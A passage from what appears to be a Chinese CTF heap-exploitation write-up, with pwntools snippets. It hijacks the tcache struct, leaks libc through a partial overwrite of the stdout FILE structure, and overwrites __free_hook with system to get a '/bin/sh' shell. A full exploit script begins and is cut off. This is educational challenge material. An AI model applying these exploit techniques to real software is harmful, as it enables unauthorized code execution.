      那么，接下来我们再分配，便可将 chunk 分配到 `tcache struct` 上：

     ```python
     	add(b'callmecro', 0x80)
     	add(p16(0)*0x27+p16(0x7), 0x80)
     	delete(2)
     ```

     分配到 `tcache struct` 上，我们将 `tcache struct` 对应的大小的 `bin` 数量填满，这样我们将 `tcache struct` 释放掉，便会变成 `unsorted bin chunk`。

   * 我们知道，`unsorted bin chunk` 的 `fd` 和 `bk` 都指向 `main_arena+96`，也就是 `bins[0]` 的位置。我再次分配，然后修改 `fd` 的低 2 字节为 `0x86c0`，当然这里需要进行爆破。如果我们成功分配到 `_IO_stdout_2_1` 上，那么就会有信息泄露出来：

     ```python
     	add((p16(0)*2+p16(1)*2+p16(0)+p16(0)+p16(1)*26), 0x80)
     	add(b'\xc0\x86', 0x2)
     
     	add(p64(0xfbad1800) + p64(0) * 3 + b'\x00', 0x90)
     
     	assert (b'\x7f' in r())
     ```

     利用泄露的信息，我们便可以计算得到 libc 基址：

     ```python
     	assert (b'\x7f' in r())
     	for i in range(3):
     		r()
     
     	rr(0x6af)
     	libc.address = u64(rr(8)) - 0x1e14c0
     
     	log.success("libc_addr: 0x%x", libc.address)
     ```

   * 有了 libc 基址，我们又控制着 `tcache struct`，那么剩下就简单了，我们只需要分配到 `__free_hook`，然后修改其为 `system` 地址，再 free 掉一个 `/bin/sh` 的 chunk 即可。

     ```python
     	add(p64(libc.sym['__free_hook']))
     	add(p64(libc.sym['system']), 0x190)
     	add(b'/bin/sh\x00')
     	delete(8)
     ```

5. 完整 EXP

```python
#encoding:utf-8
from pwn import *
import re

ip = '172.17.0.2'
port = 9999 
local = 0
filename = './pwn'
libc_name = 'libc.so.6'
PREV_INUSE = 0x1
IS_MMAPPED = 0x2
NON_MAIN_ARENA = 0x4

def create_connect():
	global io, elf, libc

	elf = ELF(filename)
	context(os=elf.os, arch=elf.arch, timeout=3, log_level=1)
	
	if local:
		io = process(filename, env={'LD_PRELOAD':"./libc.so.6"})
```